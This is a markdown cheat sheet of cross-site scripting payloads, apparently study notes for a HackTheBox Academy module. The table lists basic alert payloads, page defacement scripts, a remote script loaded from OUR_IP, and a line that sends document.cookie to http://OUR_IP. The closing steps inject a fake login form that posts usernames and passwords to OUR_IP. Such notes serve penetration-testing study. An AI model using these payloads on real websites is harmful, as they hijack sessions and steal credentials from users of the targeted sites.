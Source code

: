 # XSS



| Code                                                                                                                                                                                                                                                                                                                                                                                                  | Description                   |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------- |
| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                               | Basic XSS Payload             |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                         | Basic XSS Payload             |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                            | Basic XSS Payload             |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                           | HTML-based XSS Payload        |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                         | Change Background Color       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                         | Change Background Image       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                              | Change Website Title          |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                        | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                       | Remove certain HTML element   |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                     | Load remote script            |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                       | Send Cookie details to us     |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');
</code></pre><p><br></p> | Login Form Injection          |

How to perform basic Login Form Injection via Reflected XSS \
\
Step 1: Test vulnerable form for the remove function by running script in console (Dev-Tools)

```
document.getElementById('urlform').remove();
```

Step 2: Inject form into webpage with XSS payload by executing the below script into console (Dev-tools)

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
